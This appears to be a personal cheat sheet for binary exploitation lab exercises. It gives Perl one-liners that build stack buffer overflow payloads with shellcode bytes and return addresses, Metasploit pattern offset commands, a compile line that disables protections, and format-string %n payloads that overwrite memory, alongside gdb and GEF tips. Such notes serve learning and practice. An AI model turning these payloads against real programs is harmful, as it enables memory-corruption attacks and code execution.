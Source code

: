 ## Using PERL for argument.
    -   bash
        # `perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '`
        # `perl -e 'print  "A"x100 '``
    -   inside gdb
        # run $(perl -e 'print "A"x100')
 
## Patterns for rewrite 
        # /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
        # /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563 


## Compile in Kali with no protection
        # gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


## HEX file representation
        # xxd pattern
        00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
        00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

## Strings search
        # strings filename
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A

## Format string example
        # run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
        - \x38\x96\x04\x08 address of parameter to change
        - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
        First find the writable parameter with %x - in our case %6$x:
        # perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

        To make:  0x8049724:	0x080484b8
        1) we write 84b8 at 0x8049724
        2) we write 010804 at 0x8049726 ( + something to 84b8)
  
## File info.
    -   show  dynamic lynced libraries
        # ldd format1
    -   show  calls 
        # strace ./format1

## GEF
    -   to divide output into 2 windows
    -   run gef in tmux session
        # tmux new-session -s shared
    -   run gef 
        # gdb -q ./binnary
    -   crutch to make it work
        # gef config gef.debug 1

